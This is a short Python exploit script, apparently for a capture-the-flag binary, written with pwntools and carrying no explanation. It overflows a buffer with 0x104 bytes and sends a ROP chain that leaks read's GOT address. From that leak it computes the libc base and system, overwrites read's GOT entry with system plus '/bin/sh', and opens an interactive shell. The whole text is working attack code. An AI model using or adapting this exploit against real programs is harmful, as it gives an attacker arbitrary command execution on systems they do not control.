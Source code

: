 ```
    payload = 'a'*0x104
    payload += p32(pop_s)+p32(printf_got) #r4
    payload += p32(1)+p32(read_got)    #r5, r6
    payload += p32(0)+p32(0)    #7, r8
    payload += p32(0)*2 + p32(0x10548)
    payload += p32(read_got)+p32(1)+p32(0)+p32(read_got)+p32(16)
    payload += p32(0)*2 + p32(0x10548)
    payload += p32(read_got)+p32(1)+p32(read_got+4)+p32(0)+p32(0)
    payload += p32(0)*2 +p32(0x10548)

    p.sendline(payload)
    read_addr = u32(p.recv(4))
    libc_base = read_addr-libc.sym['read']
    print('libc_base:',hex(libc_base))
    print('read:',hex(read_addr))
    system_addr = libc_base+libc.sym['system']
    bin_sh_addr = libc_base + next(libc.search('/bin/sh\x00'))
    print("system_addr:",hex(system_addr))
    #p.recvuntil('input: ')
    p.sendline(p32(system_addr)+'/bin/sh\x00')

    p.interactive()

Pwn()
```
